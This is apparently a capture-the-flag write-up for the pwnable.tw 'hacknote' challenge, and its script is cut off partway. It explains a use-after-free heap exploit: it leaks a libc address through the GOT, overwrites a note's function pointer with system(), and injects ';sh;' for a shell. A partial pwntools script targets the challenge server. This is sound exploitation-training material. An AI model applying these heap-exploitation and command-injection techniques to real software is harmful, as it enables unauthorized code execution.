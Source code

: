 **1. add_note0(16,'aaa')**
**2. add_note1(16,'bbb')**

Our heap would be like this:

![](https://i.imgur.com/AB0qMDV.png)

**3. del_note(0)**
**4. del_note(1)**

Our fastbin would be like this:

![](https://i.imgur.com/dQwWlhp.png)

**5. addnote(8,'function_what_we_want') <- anywhere**

We would like to leak libc address to calculate the offset and get the **system()** address.

I spend lots of time using **< puts@plt >**, but gain nothing.

So I use **0x0804862b** to leak **GOT**, and I perfectly get the libc address.

Last, we overwrite the function pointer to **system()**, but we got the mysterious command:

![](https://i.imgur.com/wFXIoJ4.png)

It seems like our parameter to **system()** went wrong, let's look back to the IDA:

```c
  if ( ptr[buf_int] )
    (*(void (__cdecl **)(void *))ptr[buf_int])(ptr[buf_int]);
```

It equals to this:

```c
  if ( ptr[buf_int] )
    system(ptr[buf_int]);
```

Thus we get the mysterious command from the heap.

That's fine, we can input **";sh;"** to do the command injection. :laughing: 

## 0x03
Exploit:
```python
from pwn import *

#r = process(['/glibc/2.23/32/lib/ld-2.23.so','./hacknote'],env={'LD_PRELOAD':'./libc_32.so.6'})
#r = process('./hacknote')
r = remote('chall.pwnable.tw',10102)

def addnote(size,content):
    r.sendafter(':','1\n')
    r.sendafter(':',size+'\n')
    r.sendafter(':',content+'\n')

def delnote(index):
    r.sendafter(':','2\n')
    r.sendafter(':',index+'\n')

def printnote(index):
    r.sendafter(':','3\n')
    r.sendafter(':',index+'\n')

def main():
    addnote('16','aaa')
    addnote('16','bbb')
    delnote('0')
```